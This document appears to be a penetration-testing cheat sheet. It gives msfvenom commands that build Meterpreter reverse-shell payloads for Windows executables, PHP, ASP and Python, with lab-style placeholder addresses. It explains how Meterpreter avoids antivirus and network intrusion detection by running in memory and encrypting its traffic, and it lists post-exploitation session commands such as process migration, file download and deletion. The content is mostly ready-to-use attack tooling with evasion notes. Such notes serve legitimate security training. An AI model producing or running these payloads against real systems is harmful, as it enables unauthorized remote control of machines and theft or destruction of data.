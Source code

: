 ### Windows
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

### PHP
```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

### ASP
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

### Python
```sh
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

# Meterpreter
Is a Metasploit payload that supports the penetration testing process with many valuable components. Meterpreter will run on the target system and act as an agent within a command and control architecture. It runs on the target system but is not installed on it. It runs in memory and does not write itself to the disk on the target, aiming to avoid being detecte during antivirus scans. By default most antivirus software will scan new files on the disk, thus it runs in memory (RAM) to avoid having a file that has to be written to the disk. 
It also aims to avoid being detected by network-based IPS and IDS solutions by using encrypted communication with the server where Metasploit runs (our machine). If the target organisation does not decrypt and inspect encrypted traffic coming to and going out of the local network, IPS and IDS solutions will not be able to detect its activities.
We can use `msfvenom --list payloads | grep meterpreter` to show the payloads that use meterpreter

## Commands
Some of the most commonly used commands.

Core Commands
- `background`: Backgrounds the current session
- `exit`: Terminate the Meterpreter session
- `guid`: Get the session GUID (Globally Unique Identifier)  
- `help`: Displays the help menu
- `info`: Displays information about a Post module
- `irb`: Opens an interactive Ruby shell on the current session
- `load`: Loads one or more Meterpreter extensions
- `migrate`: Allows you to migrate Meterpreter to another process
- `run`: Executes a Meterpreter script or Post module
- `sessions`: Quickly switch to another session

File system commands
- `cd`: Will change directory
- `ls`: Will list files in the current directory (dir will also work)
- `pwd`: Prints the current working directory
- `edit`: will allow you to edit a file
- `cat`: Will show the contents of a file to the screen
- `rm`: Will delete the specified file
- `search`: Will search for files
- `upload`: Will upload a file or directory
- `download`: Will download a file or directory
